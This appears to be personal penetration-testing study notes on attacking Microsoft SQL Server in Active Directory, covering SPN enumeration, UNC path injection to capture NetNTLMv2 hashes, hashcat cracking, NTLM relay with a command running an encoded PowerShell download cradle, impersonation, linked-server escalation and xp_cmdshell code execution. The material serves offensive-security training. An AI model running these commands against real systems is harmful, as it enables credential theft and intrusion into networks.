 ## Microsoft SQL attacks

MSSQL in AD have SPN. To query the DC:
[[Active Directory]]
#AD #SPN #cmd
``` cmd
setspn -T corp1 -Q MSSQLSvc/*
```

#useful-script #ps1
```powershell
. .\GetUserSPNs.ps1
```

### Authentication in MSSQL

In AD this is handled by Kerberos, and the mapping between the user and dbo is done. If no mapping, the user will be guest. To login mapped to sa will have sysadmin role. 

Domain Users are member of Builtin Users group which has access by default.

For code refer to the mssql-exp VS project.

### UNC Path Injection 

The idea is to force the MSSQL to connect to our SMB share so we capture NETNTLMv2 hash for cracking, later we will also learn to relay the hash.
We must provide the UNC path with IP, not hostname as Windows would automatically switch from Kerberos to NetNTLM. 

Run the mssql-exp binary, but start the responder first on Kali to get the hash.
#NetNTLM #responder
``` bash
sudo responder -I tun0
```

For cracking.
#hashcat #cracking
``` bash
sudo hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```


### Relay NetNTLM hash

To not crack the hash we can relay it - the password may be strong. If the user whose hash we relay is local admin, we can get code exec. It is only possible if SMB signing not enabled (enabled by default on DC, but not on the standard Windows Servers).

To start the relay attack we give the encoded ps1 with download cradle:
#encoding #impacket
``` bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc <encoded_download_cradle>'
```

### MSSQL Priv escalation

The goal is to obtain access to the user who is sysadmin in MSSQL - we can use the AD priv esc. We can also do impersonation with the usage of EXECUTE AS - only certain users can use impersonation; not every user has it, there must be misconfig. We can Impersonate on user and login (EXECUTE AS USER/LOGIN). We can enumerate which account allows impersonation, but we cannot enumerate who can impersonate them.
For execute as USER we must do it on the msdb as it is TRUSTWORTHY with user dbo as he has sa.

#### Linked SQL Servers for Priv Escalation

MSSQL can be linked together. When the link is create the admin specifies execution context - it can be dynamic based on the current context, but admins can choose specific SQL login, like with the impersonation (admin misconfig). The stored procedure sp_linkedserver can be used for enum. Then, we must enum which context is running on the Linked MSSQL - if sa we can execute code, if not we can try to repeat the enum with Linked MSSQL servers.
When we enum for security context using the openquery it is important to escape double quotes with backslash. In the EXEC AT synatax, it is important to escape single quote, it is escaped by the second single quote. 
The **RECONFIGURE** on the Linked MSSQL server requires to have the **RPC Outbound ** (it is not set by defaut but it might eb set), if we are in sysadmin role we can enable RPC Out with the **sp_serveroption** stored procedure. 

Links are **not bidirectonal** , but there can be connection back home, so if we want to come home or move across different links, we must always perform the same steps.
1. Enum Linked MSSQL Servers
2. Enum the security context of this Link
3. If sa over link we can get Code Execution, if not we can repeat. 


### Getting code execution 

To obtain code execution we can use: xp_cmdshell, sp_oacreate (Ole Automation Procedure) or through loading custom assembly. Refer to the mssql-exp in code section for implementation.

For Custom Assemblies we can use the CREATE ASSEMBLY procedure, but that also requires TRUSTWORTHY db. We import managed dll as an object and execute. To hex encode assembly we use the follow:
[[Oneliners#^6217c2]]






